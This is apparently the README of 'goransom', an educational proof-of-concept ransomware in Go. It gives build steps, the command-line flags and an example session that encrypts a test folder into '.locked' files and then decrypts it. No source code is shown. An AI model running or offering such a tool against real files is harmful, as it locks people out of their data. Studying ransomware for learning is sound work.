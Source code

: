 # goransom

![](thief_gopher.jpg)

This is a proof of concept for a simple ransomware written in Go. The purpose of this project is purely educative: I wrote `goransom` to get familiar with the language, this also means that the code is poorly written and organized.

**DO NOT USE THIS ON SYSTEMS WHERE YOU DON'T HAVE THE PERMISSION OF THE OWNER**

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build goransom.go
```

This will create an executable called `goransom`. You can then run the executable with the following flags:
- `-target`, to specify a folder or a file to encrypt/decrypt. If it's a directory, all the files contained in the given folder will be encrypted/decrypted.
- `-secret`, to specify the secret which is used to derive the key for the encryption/decryption.
- `-decrypt`, to be specified if we want to decrypt a file or a folder.

### Example

```
$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME

$ ./goransom -secret supersecret -target testfolder
Operating on testfolder
Operating on testfolder/testfile

$ tree
.
├── goransom
└── testfolder
    └── testfile.locked

$ cat testfolder/testfile.locked
�C4�w��i�G⛘]+�~O(�@f1
                     �<
                       �0k><�ZlEV&yj��;)�[1m%

$ ./goransom -secret supersecret -target testfolder -decrypt
Operating on testfolder
Operating on testfolder/testfile.locked

$ tree
.
├── goransom
└── testfolder
    └── testfile

$ cat testfolder/testfile
THIS IS A SUPER IMPORTANT FILE, PLEASE DON'T TAKE IT AWAY FROM ME
```

